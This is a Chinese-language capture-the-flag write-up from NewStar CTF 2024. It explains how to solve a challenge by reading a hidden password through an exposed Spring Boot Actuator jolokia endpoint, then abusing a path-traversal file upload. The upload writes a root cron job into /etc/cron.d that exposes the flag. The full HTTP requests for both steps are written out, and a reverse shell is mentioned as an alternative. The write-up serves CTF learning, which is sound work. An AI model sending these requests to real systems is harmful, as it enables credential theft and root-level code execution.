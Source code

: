 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# 隐藏的密码

根据题目隐藏的密码可能是存在信息泄露，进行目录扫描，可以扫到 `env` 和 `jolokia` 端点，可以找到 `caef11.passwd` 属性是隐藏的

```http
POST /actuator/jolokia HTTP/1.1
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["caef11.passwd"]}
```

读到密码后，根据题目描述和属性的名字可得用户名为 `caef11`

```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=--abc
Cookie: PHPSESSID=kc8dfc8njb57d311qlmh7ij0d2; JSESSIONID=E1EF0128A9A427C2593DA64FAE3E2102

----abc
Content-Disposition: form-data; name="file"; filename="../etc/cron.d/testt"
Content-Type: application/octet-stream

*/1 * * * * root cat /flag | xargs -I {} touch /{}

----abc--
```

通过写定时任务（计划任务）的方式，以 flag 为文件名在根目录创建新文件，通过 `ls` 查看 flag，或者反弹 shell 也可以
